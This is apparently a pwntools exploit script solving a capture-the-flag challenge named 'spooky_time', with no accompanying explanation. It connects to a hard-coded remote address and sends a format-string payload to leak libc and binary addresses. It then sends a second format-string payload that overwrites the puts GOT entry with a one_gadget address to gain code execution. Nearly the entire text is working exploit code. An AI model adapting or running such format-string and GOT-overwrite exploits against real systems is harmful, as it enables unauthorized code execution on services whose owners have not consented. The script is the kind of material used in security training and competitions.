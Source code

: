 from pwn import *

exe = ELF("./spooky_time_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-linux-x86-64.so.2")

context.binary = exe

#p = process()
p = remote('94.237.59.119',38460)
#gdb.attach(p,gdbscript='''
#           b*main+175
#           b*main+210

#           ''')

payload_leak = b'%49$p|%51$p'
p.sendline(payload_leak)

p.recvuntil(b'Seriously?? I bet you can do better than')
p.recvline()

leak_libc = int(p.recvuntil(b'|')[:-1],16)
exe_address  = int(p.recvline()[:-1],16)
exe.address = exe_address - exe.sym.main
libc.address = leak_libc - libc.sym.__libc_start_call_main + 128 - 0x100
log.info(f"exe: {hex(exe.address)}")
log.info(f"libc base: {hex(libc.address)}")
one_gadget = libc.address + 0xebcf5

got_puts = exe.got.puts
got_puts_2 = got_puts + 1

system_1 = one_gadget & 0xff
system_2 = one_gadget >> 8 & 0xffff

log.info(f"system {hex(libc.sym.system)}")
log.info(f"one gadget: {hex(one_gadget)}")


payload_overwrite_got = f"%{system_1}c%16$hn".encode()
payload_overwrite_got += f"%{system_2-system_1}c%17$hn".encode()
payload_overwrite_got = payload_overwrite_got.ljust(0x40,b'p')
payload_overwrite_got += p64(got_puts)
payload_overwrite_got += p64(got_puts_2)


offset = 8
payload = fmtstr_payload(offset, {exe.got['puts'] : one_gadget})

input("payload2")
p.sendline(payload_overwrite_got)
